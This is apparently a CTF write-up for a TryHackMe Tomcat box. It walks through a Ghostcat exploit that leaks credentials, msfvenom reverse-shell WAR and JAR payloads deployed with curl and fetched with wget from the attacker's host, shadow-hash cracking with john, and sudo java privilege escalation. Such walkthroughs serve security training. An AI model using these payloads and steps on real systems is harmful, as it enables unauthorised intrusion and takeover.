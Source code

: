 ```yaml
---
title: Vulnet dotjar
layout: post
author: Bit Criminals Team
date: 2021-05-12 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotjar
---
```


Let's start our daily routine nmap scan:

![](/images/dotjar1.png)

So, we get a 8009 port and a 8080 port on which Apache Tomcat is running.Well,the 8009 was new to me at least.

I then ran gobuster for port 8080 and here's what I got

![](/images/dotjar4.png)

After searching a bit,I finally found a help 
from my bestie-Google.I found a article about a exploit named **Ghostcat** CVE-2020-1938.

```
https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp
```

Then,I searched for this exploit with searchsploit and look I found a python script:multiple/webapps/48143.py 

![](/images/dotjar2.png)

Finally I ran the python script.

```python
python 48143.py <boxip>
```

![](/images/dotjar3.png)

and here we go.We get a username and a password ***webdev:Hgj3LA$02D$Fa@21***.That's what we wanted.

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help. 

Then,again I started to look for some exploits to hack the Tomcat apache server running in port 8080
and google again prove it's supremacy.

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

Reading this article I understood that we had to create a reverse shell and then upload it to port 8080.
I also understood that the exploit must be a war file.Here's what I came up with msfvenom. 

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=1234 -f war > shell.war
```

Then, I uploaded it with curl command as follows

```shell
curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file shell.war  "http://ip:8080/manager/text/deploy?path=/monshell"
```

Listening to the given port,1234 as given in the exploit in this case,I opened the /monshell/ directory in which I had uploaded the shell.

And,yes we get a shell and I was logged in as 'web'

![](/images/dotjar5.png)

After searching a bit we found a backup file of shadow in the /var/backups folder so we copied it to /tmp and gunzipped it to retrieve the shadow file.

![](/images/D4rkDemian/jar.png)

Then we cracked the password hash for jdk-admin using john and logged in as jdk-admin

![](/images/D4rkDemian/jar2.png)

Now we can view the user flag..

![](/images/D4rkDemian/jar3.png)

After doing **sudo -l** we found that we have root permissions to run any java file.

![](/images/D4rkDemian/jar4.png)

So we created an exploit using msfvenom 

```shell
msfvenom -p java/shell_reverse_tcp lhost=<local ip> lport=1234 -f jar -o pwn.jar

```
Then i opened a http-server and transferred the payload to the shell using wget 

![](/images/D4rkDemian/jar5.png)

```shell
python3 -m http.server 80
wget <local ip>/pwn.jar --output-document=pwn.jar
```
And opened a listening port 1234 in my terminal and ran the .jar file in the shell.Thus we got the root access 

```shell
sudo /usr/bin/java -jar pwn.jar
```
Now we can view the root flag as well!!

![](/images/D4rkDemian/jar6.png)




